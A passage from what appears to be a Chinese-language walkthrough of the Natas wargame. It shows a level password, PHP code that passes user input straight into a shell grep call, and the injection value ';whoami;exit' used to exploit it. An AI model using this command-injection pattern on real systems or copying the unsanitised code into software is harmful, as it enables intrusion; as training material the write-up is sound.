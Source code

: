 ```plaintext
Access granted. The password for natas9 is ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t
```

## Level 9 → Level 10

看看源码

```php
?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

很明显的命令拼接漏洞，尝试进行利用

```plaintext
;whoami;exit
```

得到

![img](img/image_20250159-215915.png)
